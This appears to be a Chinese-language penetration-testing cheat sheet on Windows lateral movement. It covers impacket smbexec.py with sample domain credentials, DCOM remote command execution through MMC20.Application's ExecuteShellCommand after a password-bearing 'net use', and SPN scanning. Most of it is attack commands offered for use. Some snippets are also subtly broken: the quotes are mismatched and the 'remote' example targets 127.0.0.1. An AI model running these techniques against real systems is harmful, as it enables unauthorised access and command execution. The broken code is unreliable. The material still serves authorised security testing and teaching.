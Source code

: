 #### impacket工具包中的smbexec.py

```
smbexec.py
smbexec.py pentest/administrator:Aa123456@192.168.xxx.xxx
```

#### Linux跨windows远程执行命令

- 下载地址

```
https://github.com/brav0hax/smbexec
```

### DCOM在远程系统中的使用(分布式组件对象模型)
#### 本地DCOM执行命令

- 获取DCOM程序列表

```
Get-CimInstance Win32_DCOMApplication win12以上

Get-WmiObject -Namespace ROOT\CIMV2 -Class Win32_DCOMApplication win7、08
```
- 使用DCOM执行任意命令

```
本地启动计算器
$com = [activator]::CreateINstance([type]::GetTypeFromProgiD("MMC20.Application",'127.0.0.1"))
$com.Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c calc.exe","Minimzed")
```

- 远程机器执行命令

```
net use \\192.168.100.205 "a123456" /user:pentest.com\syst1m

$com = [activator]::CreateINstance([type]::GetTypeFromProgiD("MMC20.Application",'127.0.0.1"))

$com.Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c calc.exe","Minimzed")

```

### SPN
#### SPN扫描

- SPN

```
spn = serviceclass "/" hostname [":"port] ["/" servicename]

MSSQLSvc/computer1.pentest.com:1433
exchageMDB/EXCAS01.pentest.com Exchange服务
TERMSERV /EXAS.pentest.com rdp
WSMAN/ExCAS01.pentest.com
```
- PowerShell-Ad-Recon工具包
